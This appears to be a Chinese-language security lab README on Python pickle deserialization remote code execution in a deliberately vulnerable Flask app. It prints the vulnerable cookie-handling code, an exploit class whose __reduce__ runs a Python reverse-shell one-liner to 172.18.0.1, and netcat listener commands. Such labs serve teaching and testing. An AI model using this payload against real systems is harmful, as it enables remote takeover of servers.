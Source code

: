 # Python Unpickle 反序列化远程代码执行漏洞

Python的pickle模块是一个流行的序列化/反序列化工具，可以将Python对象转换为字节流，反之亦然。然而，当使用pickle反序列化不受信任的数据时，可能导致任意代码执行。

当应用程序在没有适当验证的情况下使用pickle模块反序列化用户可控数据时，就会出现此漏洞。攻击者可以构造恶意序列化对象，在反序列化时在目标系统上执行任意命令。

参考链接：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html
- https://docs.python.org/3/library/pickle.html#pickle.loads
- https://intoli.com/blog/dangerous-pickles/

## 环境搭建

执行以下命令启动存在漏洞的Flask应用：

```
docker compose build
docker compose up -d
```

环境启动后，可以在浏览器中访问`http://your-ip:8000`。页面将显示`Hello {username}!`，其中username是从'user' cookie中获取的。应用程序对此cookie执行base64解码和反序列化以提取"username"变量。如果没有找到有效的cookie，则默认为"Guest"。

app.py中的漏洞代码如下：

```python
@app.route("/")
def index():
    try:
        user = base64.b64decode(request.cookies.get('user'))
        user = pickle.loads(user)
        username = user["username"]
    except:
        username = "Guest"

    return "Hello %s" % username
```

## 漏洞复现

要利用此漏洞，我们需要创建一个恶意的pickle对象，该对象在反序列化时将执行任意命令。该利用使用Python的`__reduce__`方法来指定对象被反序列化时要调用的函数。

提供的利用脚本(exp.py)创建了一个恶意pickle对象，该对象建立与攻击者机器的反向shell连接：

```python
class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.18.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))
```

要执行此利用，首先在您的机器上设置netcat监听器以接收反向shell：

```bash
nc -lvp 80

# 在 Mac 上，因为 macOS 自带的是 BSD 版本的 netcat，而不是 GNU 版本，所以一些参数可能不兼容，你只需要
nc -lv 80
```

然后运行利用脚本，将恶意cookie发送到存在漏洞的应用程序：

```bash
python3 exp.py
```

当服务器反序列化恶意pickle对象时，它将执行命令并建立与您机器的反向shell连接：

![反向Shell演示](1.png)

在 Mac 上测试的结果：

![Mac上反向Shell演示](mac.png)
